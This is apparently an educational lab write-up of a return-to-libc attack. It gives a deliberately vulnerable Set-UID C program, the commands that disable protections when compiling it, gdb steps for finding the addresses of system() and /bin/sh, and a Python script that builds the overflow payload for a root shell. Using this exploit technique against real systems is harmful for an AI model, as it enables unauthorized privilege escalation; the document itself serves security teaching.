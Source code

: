 ```yaml
---
title: "Return-to-libc Attack"
date: 2021-02-01T18:49:41+08:00
draft: false
---
```


To prevent buffer overflow attacks, some operating systems allow the programs to make their stacks non-executable, which means if we jump to the stack and run the shellcode, we will fail. The goal of the following experiments is to utilize the variant of buffer overflow attack -- return-to-libc attack and get the root privilege of the shell. 



## Setup

Environment:

1. Google cloud virtual machine: Ubuntu 20.04
2. Linux kernel version: 5.4.0
3. Create a symbolic link from "/bin/zsh" to "/bin/sh" since /bin/dash in most Ubuntu systems prevents itself from being executed in a Set-UID process 
4. Disable ASLR and Stackguard protection, but make the stack non-executable (our purpose of the experiment)



## Vulnerable program 

Here is a vulnerable program called retlib.c. 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int bof(char* str)
{
	char buffer[12]; 
	unsigned int* framep; 

	asm("movl %%ebp, %0" : "=r" (framep)); 

	printf("ebp value = 0x%.8x\n", (unsigned)framep); 
	printf("buffer address = 0x%.8x\n", (unsigned)buffer); 

	strcpy(buffer, str); 		// buffer overflow
	return 1; 
}

int main(int argc, char** argv)
{
	char input[100]; 
	FILE* badfile; 

	badfile = fopen("badfile", "r"); 
	int len = fread(input, sizeof(char), 100, badfile); 
	printf("input size = %d", len); 

	bof(input); 
	printf("return properly\n"); 

	return 1; 
}
```

Disable ASLR and Stackguard protection, and compile the program into the 32-bit executable. Note that we need to make the stack non-executable, so compile with the flag "-z noexecstack" as follows:

```
$ gcc -m32 -fno-stack-protector -z noexecstack retlib.c -o retlib
$ sudo chown root retlib
$ sudo chmod 4755 retlib
```



## Idea

The idea of the return-to-libc attack is to jump into a function in the library (for example, libc) without running the instruction located in the stack. To get the root privilege of the shell, our goal is to invoke system("/bin/sh") in the libc. So the first thing is to specify where is the function system(). We can use gdb debugger to print out the address of the system() as follows. 

![](https://github.com/chuang76/image/blob/master/ch3-13.PNG?raw=true)

Next, we need to find out where is the string "/bin/sh". One method is to use an environment variable. The reason is that when we execute a program from a shell prompt, the shell actually fork itself and creates a child process to run the program. All the exported environment variables will be *inherited* by the child process. So we can export a self-defined environment variable called "my_shell" which value equals to "/bin/sh", and use a simple program called "prtenv.c" to print out the address. 

```
#include <stdio.h>
#include <stdlib.h>

void main()
{
	char* shell = getenv("my_shell"); 
	if (shell)
		printf("shell = %s, address = 0x%x\n", shell, (unsigned int)shell);
}
```

Compile the program and export the environment variable "my_shell". 

```
$ export my_shell="/bin/sh"
$ gcc -m32 prtenv.c -o prtenv
$ gcc -m32 prtenv.c -o prtaaa
$ gcc -m32 prtenv.c -o prtaaaaa
$ gcc -m32 prtenv.c -g -o prtenv_dbg
```

Here is the result. However, the address of the environment variable is sensitive to the length of the file name. Why? Let's use the debugger to figure out. 

![](https://github.com/chuang76/image/blob/master/ch3-14.PNG?raw=true)

Set a breakpoint at main function and run the program. We can find the address of environment variable with a pointer to pointer [environ](https://man7.org/linux/man-pages/man7/environ.7.html), which points to an array of pointers to strings called the "environment". As you can see, environment variables are located in the stack section. Before environment variables are pushed into the stack, the file name of the program is pushed first. So that's why the address of the environment variable may be affected by the length of the file name. 

```
(gdb) x/100s *((char **)environ)
```

![](https://github.com/chuang76/image/blob/master/ch3-15.PNG?raw=true)

![](https://github.com/chuang76/image/blob/master/ch3-16.PNG?raw=true)

![](https://github.com/chuang76/image/blob/master/ch3-17.PNG?raw=true)



## Exploit

Run the vulnerable program to find out where should we put the address of system(). That is, the value of ebp - the address of buffer + the size of ebp register =  0xffffd4d8 - 0xffffd4c0 + 4 = 28. So our crafted stack frame should looks like this:

![](https://github.com/chuang76/image/blob/master/ch3-19.PNG?raw=true)

Here is our payload: replace the return address of strcmp()'s frame as the address of system() and put the argument of system(), i.e., the address of the string "/bin/sh". Note that it is necessary to fill the return address of system()'s frame with the address of exit(), or the program will crash. 

```
#!/usr/bin/python3

import sys 

content = bytearray(0xaa for i in range(100))

shell_addr = 0xffffdf73
system_addr = 0xf7e13420
exit_addr = 0xf7e05f80 

content[28:32] = (system_addr).to_bytes(4, byteorder='little')
content[32:36] = (exit_addr).to_bytes(4, byteorder='little')
content[36:40] = (shell_addr).to_bytes(4, byteorder='little')

with open("badfile", "wb") as f:
    f.write(content)
```

So we can get the root privilege of the shell. 

![](https://github.com/chuang76/image/blob/master/ch3-18.PNG?raw=true)



## Reference

1. Programs, Processes and Memory [[link]](https://www.usna.edu/Users/cs/wcbrown/courses/IC221/classes/L08/Class.html)